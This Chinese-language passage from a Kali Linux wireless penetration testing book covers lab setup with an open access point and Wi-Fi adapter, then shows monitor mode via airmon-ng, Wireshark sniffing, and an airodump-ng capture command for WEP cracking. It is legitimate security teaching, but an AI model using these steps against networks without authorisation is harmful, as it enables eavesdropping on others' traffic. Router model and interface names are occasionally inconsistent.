# Kali Linux 无线渗透测试


## 前言
无线网络在当今世界已无处不在。人们每天都在全球各地的家中、办公室和公共热点使用无线网络登录互联网，处理个人事务与工作。尽管无线技术让生活变得极为便捷，赋予我们出色的移动性，但它也伴随风险。近年来，不安全的无线网络被用于入侵企业、银行与政府机构。这类攻击的频率正不断升高，因为网络管理员们至今仍不清楚如何以稳健且万无一失的方式保障无线网络安全。本书旨在帮助读者了解无线网络存在的安全风险，以及如何开展渗透测试来发现并修复这些漏洞，是希望开展无线网络安全审计、一直想获得循序渐进实践指导的读者的必读之作。由于本书讲解的每一种无线攻击都会立即附带实操演示，因此学习内容非常完整。我选择Kali Linux作为本书测试所有无线攻击的平台。Kali Linux是全球最流行的渗透测试发行版，内置了数百种安全与黑客工具，其中部分工具将在本书后续内容中使用。

## 本书所需准备材料
要完成并复现本书中的实操练习，你需要两台配备内置Wi-Fi卡的笔记本电脑、一个USB无线Wi-Fi适配器、Kali Linux系统以及其他部分软硬件。作为两台笔记本电脑的替代方案，你也可以搭建搭载Kali Linux的虚拟机，通过USB接口将无线网卡连接到虚拟机中。这种方式能让你更快上手本书内容，但如果你要进行实际的现场评估，我们仍推荐使用预装Kali Linux的专用设备。从前提要求来看，读者需要了解无线网络的基础知识，包括熟悉802.11协议的基础知识，以及客户端与接入点的通信原理。尽管我们在搭建实验环境时会简要涉及部分相关内容，但默认读者已经掌握这些概念。

## 本书适合人群
尽管本书属于入门系列，但适合所有水平的用户，从初学者到无线安全专家均能从书中获益，每个人都能找到适合自己的内容。本书从简单的攻击讲起，循序渐进讲解更复杂的攻击技术，最后探讨前沿攻击技术与相关研究。由于所有攻击都通过实操演示讲解，各水平段的读者都能轻松自行尝试这些攻击。需要注意的是，尽管本书介绍了多种可对无线网络发起的攻击手段，但本书的真正目的是帮助读者成长为无线渗透测试人员。一名熟练的渗透测试人员需要了解所有现有攻击手段，若客户有相关要求，能够轻松演示这些攻击。

## 排版约定
本书中你会看到多种不同样式的文本，用于区分不同类型的信息。以下是一些样式示例及其含义说明：
正文中的代码术语、数据库表名、文件夹名、文件名、文件扩展名、路径名、虚拟URL、用户输入以及Twitter用户名会以下列样式展示：“打开控制台终端，输入`iwconfig`。”
所有命令行输入或输出会以下列样式展示：
```
airodump-ng -bssid 00:27:01:D4:8E:25 --channel 11 --write WEPCrackingDemo mon0
```

## 第一章：无线实验环境搭建
所有成功的实施都离不开数小时甚至数日的准备，无线渗透测试也不例外。在本章中，我们将搭建无线实验环境，用于本书后续的所有实验。你可以把这个实验环境当作进入真实渗透测试前的演练场！
无线渗透测试是一门实践性极强的学科，首先搭建一个安全、可控的实验环境来试做本书中的所有实验至关重要。建议你在继续学习本书内容前先完成该实验环境的搭建。
在本章中，我们将学习以下内容：
- 硬件与软件需求
- 下载并安装Kali Linux
- 搭建并配置接入点
- 安装无线网卡
- 测试笔记本电脑与接入点之间的连通性

### 硬件需求
搭建无线实验环境需要以下硬件：
- 两台配备内置Wi-Fi卡的笔记本电脑：其中一台将作为实验中的受害者设备，另一台作为渗透测试人员的专用设备。尽管几乎所有笔记本电脑都符合要求，但我们推荐使用至少配备4GB内存的设备，因为实验中可能会运行大量内存密集型软件。
- 一个无线适配器（可选）：根据你笔记本电脑原有无线网卡的性能，你可能需要一个支持Kali系统的USB Wi-Fi网卡，用于实现数据包注入与数据包嗅探功能。最佳选择是Alfa Networks旗下的Alfa AWUS036H网卡，Kali系统开箱即用支持该设备，截至本文写作时，该设备在www.amazon.com的零售价为30美元。备选方案包括TP-Link N150高增益USB无线适配器（TL-WN722N）、Panda 300Mbps无线N USB适配器，以及体积更小、价格略低的Edimax EW-7711UAN适配器。
- 一个接入点：任何支持WEP/WPA/WPA2加密标准的接入点均可满足要求。本书中为方便演示，我将使用TP-LINK TL-WR841N无线路由器作为实验接入点。截至本文写作时，你可以在www.amazon.com以约25美元的零售价购买该设备。
- 一条可用的互联网连接：可用于资料检索、软件下载以及部分实验操作。

### 软件需求
搭建无线实验环境需要以下软件：
- Kali Linux：该软件可从官网http://www.kali.org下载。该软件为开源项目，你可以直接从官网下载安装包。
- Windows 7/Windows 8/Windows 8.1或Windows 10：你需要将上述四个系统中的任意一个安装到其中一台笔记本电脑上，这台设备将在本书后续所有内容中作为受害者设备使用。需要注意的是，尽管本次测试使用Windows操作系统，但所学技术可应用于任何支持Wi-Fi的设备，例如智能手机、平板电脑等。


### 安装Kali Linux
本书后续内容中，Kali系统都将安装在作为渗透测试人员工作机的笔记本电脑上。Kali的安装过程相对简单。我们先将Kali以Live DVD的形式引导启动，之后将其安装到硬盘中。请按以下步骤逐步操作：
- 将下载好的**Kali ISO镜像**（我们使用的是64位Kali ISO镜像）刻录到可启动DVD中。
- 用该DVD启动笔记本电脑，从**启动菜单**中选择**图形化安装**选项：

- 如果启动成功，你将看到如下界面：

- 该安装程序与大多数Linux系统的图形化安装程序类似，操作逻辑十分简单。请在每一个界面中选择对应选项，启动安装流程。安装完成后，按照提示重启设备并取出DVD。
> 你也可以在VMware、VirtualBox等虚拟化软件中安装Kali。如果你不想将整台笔记本电脑专门用于运行Kali，这是最佳选择。虚拟化软件中的安装流程与物理机安装完全一致，唯一区别是需要提前在虚拟环境中做好预配置。你可以从www.vmware.com和www.virtualbox.org下载这些软件。

### 配置接入点
现在我们将配置接入点。如前所述，本书中所有实验都将使用TP-LINK TL-WR941ND无线路由器，但你也可以使用其他任意接入点，其基本操作和使用原理是相同的。我们将把接入点配置为使用开放认证模式，SSID设置为Wireless Lab，请按以下步骤逐步操作：
- 接通接入点电源，用网线将你的笔记本电脑连接到接入点的任意一个以太网端口。
- 在浏览器中输入接入点配置终端的IP地址。TP-Link设备的默认IP是*192.168.0.1*，你也可以查阅你所用接入点的设置指南来获取其IP地址。如果你没有接入点的说明书，也可以在浏览器中访问[http://tplinklogin.net](http://tplinklogin.net)或[http://tplinkwifi.net](http://tplinkwifi.net)来登录路由器。网关IP地址通常就是接入点的IP。连接成功后，你将看到一个如下所示的配置门户：

该门户的默认用户名和密码均为*admin*。
- 如果你无法登录路由器，需要将其恢复为默认配置。操作方法为：按住无线路由器背面的复位键不放，持续约5秒后，路由器就会恢复到出厂默认设置。
- 我们需要将SSID重命名为"Wireless Lab"，因此需要进入**无线**选项卡，再点击**无线设置**，操作路径如下：

- 如前所述，我们需要将接入点的安全设置修改为"开放认证"。进入**无线**选项卡后，点击**无线安全**，选择**关闭安全防护**。关闭安全防护即表示接入点处于开放认证模式。
- 保存接入点的修改，按需重启接入点。现在你的接入点应该已经正常运行，SSID为**Wireless Lab**。

我们已成功完成接入点的配置，其SSID为**Wireless Lab**。接入点正在对外广播自身信号，我们的Windows笔记本电脑以及接入点**射频频段（RF）**覆盖范围内的其他设备都可以检测到该信号。需要注意的是，我们将接入点配置为了开放模式，这是安全性最低的配置。建议暂时不要将该接入点连接到互联网，因为射频频段范围内的任何人都可以通过该接入点访问互联网。

### 配置无线网卡
配置无线网卡比配置接入点简单得多。优势在于Kali系统原生支持该网卡，且内置了所有必需的设备驱动，支持数据包注入和嗅探功能。我们将把该无线网卡用于渗透测试人员的笔记本电脑上。请按以下步骤逐步配置你的网卡：
- 将网卡插入Kali笔记本电脑的任意USB端口后启动设备。登录系统后，打开控制台终端并输入*iwconfig*命令，你的界面应该如下所示：

如图所示，**wlan0**是为该无线网卡创建的无线接口。输入*ifconfig wlan0*命令来启用该接口，操作后界面如下：

- MAC地址00:c0:ca:3e:bd:93应当与你Alfa网卡背面标注的MAC地址一致。我使用的是Edimax网卡，对应的MAC地址为80:1f:02:8f:34:d5。通过这一步可以快速确认你已经启用了正确的接口。

### 连接接入点
现在我们将了解如何使用无线网卡连接到接入点。我们的接入点SSID为**Wireless Lab**，且未使用任何认证方式。请按以下步骤将你的无线网卡连接到该接入点：
- 首先查看无线网卡当前检测到的无线网络。执行*iwlist wlan0 scanning*命令，你将看到周边的网络列表。向下滚动列表即可找到Wireless Lab网络，在我的环境中该网络显示为Cell 11，你的环境中显示内容可能会有所不同。ESSID字段即网络名称。
- 由于多个接入点可能使用相同的SSID，请核对你上方Address字段中标注的MAC地址是否与你接入点的MAC地址一致。快速获取MAC地址的方法是查看接入点背面的标注。
- 现在执行*iwconfig wlan0* essid "**Wireless Lab**"命令，之后执行*iwconfig wlan0*命令查看状态。如果你已成功连接到接入点，在*iwconfig*命令输出的Access Point字段中，你应该能看到接入点的MAC地址。
- 根据接入点说明书，我们知道其管理界面的IP地址为192.168.0.1，这一地址也是我们配置接入点时的默认路由器IP地址。现在执行*ifconfig wlan0* 192.168.0.100 netmask 255.255.255.0 up命令，将我们的IP地址设置为同一子网下的地址。执行*ifconfig wlan0*命令查看输出结果，即可验证命令是否执行成功。
- 现在执行*ping 192.168.0.1*命令ping接入点。如果网络连接配置正确，你应该能看到来自接入点的响应。你还可以执行`arp -a`命令来验证响应确实来自接入点，你应该能看到IP 192.168.0.1对应的MAC地址就是我们之前记录的接入点MAC地址。需要注意的是，部分较新的接入点可能会默认禁用**互联网控制消息协议（ICMP）**的echo请求包响应，这么做是为了让接入点在最少配置的情况下也能保障开箱即用的安全性。遇到这种情况，你可以尝试打开浏览器访问其Web界面，验证连接是否正常：
```root@wireless-example:~# ping 192.168.0.1
PING 192.168.0.1 (192.168.0.1) 56(84) bytes of data.
64 bytes from 192.168.0.1: icmp_req=1 ttl=128 time=5.02 ms
64 bytes from 192.168.0.1: icmp_req=2 ttl=128 time=1.48 ms
64 bytes from 192.168.0.1: icmp_req=3 ttl=128 time=1.47 ms
^C
--- 192.168.0.1 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2003ms
rtt min/avg/max/mdev = 1.479/2.660/5.021/1.670 ms
```
在接入点端，我们可以通过查看连接日志来验证连通性。如下方日志所示，MAC地址为`4C:0F:6E:70:BD:CB`的无线网卡已记录在路由器的DHCP请求日志中：



## 测验 - 基础知识理解
Q1. 执行完ifconfig wlan0命令后，如何验证无线网卡已启用且功能正常？
Q2. 我们可以仅用Kali live CD运行所有实验吗？我们能不能不把CD安装到硬盘上？
Q3. arp -a命令会显示什么内容？
Q4. 在Kali中我们应该使用什么工具连接到WPA/WPA2网络？

### 总结
本章详细介绍了如何搭建你自己的无线实验室，此外，在这个过程中，你学习了以下基本步骤：
- 将Kali安装到硬盘，并探索虚拟机、U盘等其他可选方案。
- 通过网页界面配置你的接入点。
- 理解并使用多条命令来配置和使用你的无线网卡。
- 验证无线客户端与接入点之间的连接状态。

掌握系统配置的熟练度非常重要，如果你还不太熟练，建议你把前面的示例反复练习几遍。后续章节中，我们会设计更复杂的场景。下一章，我们将学习WLAN设计本身存在的安全缺陷，我们会使用网络分析工具Wireshark来结合实际理解这些概念。

## 第2章：WLAN及其固有安全缺陷
基础不牢，地动山摇，放到我们讨论的场景中，就是建立在本身存在固有缺陷的系统上的安全体系都是不堪一击的。WLAN在设计上存在一些相对容易被利用的安全缺陷，例如数据包欺骗、数据包注入以及嗅探（这些攻击甚至可以在远距离发起），本章会深入探讨这些缺陷。

本章我们将学习以下内容：
- 重温WLAN帧
- 不同的帧类型与子类型
- 使用Wireshark嗅探管理帧、控制帧和数据帧
- 嗅探指定无线网络的数据包
- 向指定无线网络注入数据包

让我们开始吧！

## 重温WLAN帧
由于本书聚焦无线网络安全，我们默认你已经掌握了相关协议和包头的基础知识。如果你还不熟悉，或者已经有一段时间没有接触过无线技术，现在是重新回顾这个主题的好时机。

现在让我们快速回顾一下大多数人可能已经了解的WLAN基础概念。在WLAN中，通信以帧为单位进行，帧的头部结构如下：


帧控制字段本身的结构更为复杂：


类型字段定义了三种WLAN帧：

#### 1. 管理帧：
管理帧负责维持接入点与无线客户端之间的通信，管理帧包含以下子类型：
- 认证
- 解除认证
- 关联请求
- 关联响应
- 重关联请求
- 重关联响应
- 解除关联
- 信标
- 探测请求
- 探测响应

#### 2. 控制帧：
控制帧负责确保接入点与无线客户端之间的数据正常交换，控制帧包含以下子类型：
- 请求发送（RTS）
- 允许发送（CTS）
- 确认（ACK）

#### 3. 数据帧：
数据帧承载在无线网络上传输的实际数据，数据帧没有子类型。

后续章节讨论不同攻击时，我们会进一步介绍每种帧的安全影响。现在我们来学习如何使用Wireshark在无线网络中嗅探这些帧。你也可以使用其他工具进行嗅探，例如Airodump-NG、Tcpdump或Tshark。不过本书主要使用Wireshark，也鼓励你自行探索其他工具的使用方法。

完成这一操作的第一步是创建监听模式接口，该接口会为我们当前的网卡创建一个适配接口，让我们能够读取空中所有无线帧，无论这些帧的目标是不是我们。在有线网络中，这种模式通常被称为**混杂模式**。

### 创建监听模式接口
现在我们将无线网卡设置为监听模式，请按照以下步骤操作：
1. 启动Kali时连接好你的网卡，进入控制台后输入`iwconfig`，确认网卡已被识别且驱动已正常加载。

2. 使用`ifconfig wlan1 up`命令启用网卡（其中*wlan1*是你的网卡名称），通过运行`ifconfig wlan1`验证网卡是否已启用，你会在输出的第二行看到**UP**字样，如下方截图所示：

3. 要将网卡设置为监听模式，我们会使用Kali默认自带的airmon-ng工具，首先运行airmon-ng命令确认它是否能检测到可用的网卡，你会在输出中看到列出的wlan0接口：

4. 现在输入`airmon-ng start wlan1`命令创建与wlan0设备对应的监听模式接口，新的监听模式接口会被命名为mon0。（你可以再次运行不带参数的`airmon-ng`命令确认该接口是否创建成功）
```root@kali:~# airmon-ng start wlan1
Found 3 processes that could cause trouble. If airodump-ng, aireplay-ng or airtun-ng stops working after a short period of time, you may want to kill (some of) them!
        e PID Name
        2256 NetworkManager
        2292 dhclient
        3125 wpa_supplicant

Interface Chipset	Driver
wlan1	Ralink RT2870/3070	rt2800usb - [phy0] (monitor mode enabled on mon0)
root@kali:~# airmon-ng
```
5. 此时运行`ifconfig mon0`命令，应该能看到名为**mon0**的新接口。
```root@kali:~# ifconfig mon0
mon0	Link encap:UNSPEC  HWaddr 80-1F-02-8F-34-D5-00-00-00-00-00-00-00-00-00-00  
	UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
	RX packets:1352 errors:0 dropped:1385 overruns:0 frame:0
	TX packets:0 errors:0 dropped:0 overruns:0 carrier:0 collisions:0 txqueuelen:1000
	RX bytes:172082 (168.0 KiB)  TX bytes:0 (0.0 B)
```

> > 我们已经成功创建了名为**mon0**的监听模式接口，该接口将用于嗅探空中的无线数据包，这个接口是为我们的无线网卡创建的。你还可以用同一张物理网卡创建多个监听模式接口，你可以使用*airmon-ng*工具了解具体操作方法。接下来我们会使用**Wireshark**，通过刚刚创建的mon0监听模式接口嗅探空中的数据包。

### 嗅探无线数据包
请按照以下步骤开始嗅探数据包：
1. 启动我们在第1章《无线实验室搭建》中配置好的接入点无线实验室。
2. 在控制台中输入*Wireshark*启动该工具，Wireshark启动后，导航到**捕获 | 接口**。
3. 点击**mon0**接口右侧的**开始**按钮，选择从**mon0**接口捕获数据包（如上图所示），Wireshark将开始捕获，此时你会在**Wireshark**窗口中看到数据包。


4. 这些是你的无线网卡从空中嗅探到的无线数据包，要查看任意数据包的内容，只需在顶部窗口选中该数据包，完整的数据包内容就会显示在中间窗口。
